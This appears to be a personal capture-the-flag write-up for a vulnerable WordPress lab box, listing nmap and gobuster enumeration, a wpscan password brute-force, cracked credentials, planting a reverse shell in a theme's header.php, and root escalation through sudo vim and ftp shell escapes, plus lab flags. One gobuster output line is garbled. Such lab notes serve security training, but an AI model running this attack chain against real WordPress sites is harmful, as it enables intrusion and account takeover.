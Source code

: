 tags: #privEsc #easy #gobuster #wpscan #sudoVIM #sudoFTP

IP address: 10.10.64.128
# Enumerations
```
nmap -sC -sV 10.10.250.171 -T5
```
![[Pasted image 20240609193857.png]]
```
nmap -p- -A 10.10.250.171 -T5
```
![[Pasted image 20240609202648.png]]
## Open ports
80: HTTP
4512: ssh
## Usernames/passwords
Hugo
C0ldd:9876543210
Philip


# Gobuster
```python
gobuster dir -u 10.10.250.171 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```
![[Pasted image 20240609194252.png]]
## Directories

/wp-content           (Status: 301) [Size: 319] [--> http://10.10.250.171/wp-content/]
/wp-includes          (Status: 30vulnerability0] [--> htXML-RPC0.10set up171/wp-includes/]
/wp-admin             (Status: 301) [Size: 317] [--> http://10.10.250.171/wp-admin/]
/hidden               (Status: 301) [Size: 315] [--> http://10.10.250.171/hidden/]

# Niko Finds
http://10.10.250.171/xmlrpc.php/
There might be a vulnerbility with how xmlrpc is setup. Let's try it

> [!NOTE]
> The main weaknesses associated with XML-RPC are: Brute force attacks: Attackers try to login to WordPress using xmlrpc.php .
> lets see how that is actually done & how you might be able to leverage this while your trying to test a wordpress site for any potential vulnerabilites

Did not find anything with xmlrpc.php

# WP-Scans
```bash
 wpscan --url http://10.10.64.128/ -U c0ldd --password-attack wp-login -P /usr/share/wordlists/rockyou.txt
```
### Scan details
[!] XML-RPC seems to be enabled: http://10.10.64.128/xmlrpc.php  
[!] The version is out of date, the latest version is 3.7
### Found credentials 
**c0ldd:9876543210**
![[Pasted image 20240609204402.png]]

# Getting reverse shell after log-in
Appearance -> Editor 
We will be using header.php and uploading pentest monkey reverse shell.
```python
http://10.10.64.128/wp-content/themes/twentyfifteen/header.php
```
Visiting the site starts the reverse shell.
# Upgrading shell (MAKE A DOC FOR THIS)
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```
export TERRM=xterm
```
```
stty raw -echo && fg    
```

# User.txt
```python
grep -Hrn c0ldd / 2>/dev/null
"""
-H: This option forces grep to always print the filename where the match was found, even if there's only one file being searched. It stands for "print filename".

-r: This option tells grep to search recursively through directories. It stands for "recursive".

-n: This option tells grep to prefix each line of output with the line number within its file. It stands for "line number".
"""
```
- /var/www/html/wp-config.php:22:define('DB_USER', 'c0ldd');

![[Pasted image 20240609210033.png]]

c0ldd:cybersecurity

```
cat user.txt
```
- RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

# Root.txt
```
sudo -l
```
![[Pasted image 20240609210351.png]]
## VIM
https://gtfobins.github.io/gtfobins/vim/
```
sudo vim -c ':!/bin/sh'
```
- wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE
## FTP
https://gtfobins.github.io/gtfobins/ftp/
```
sudo ftp
```
```
!/bin/sh
```
- wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE
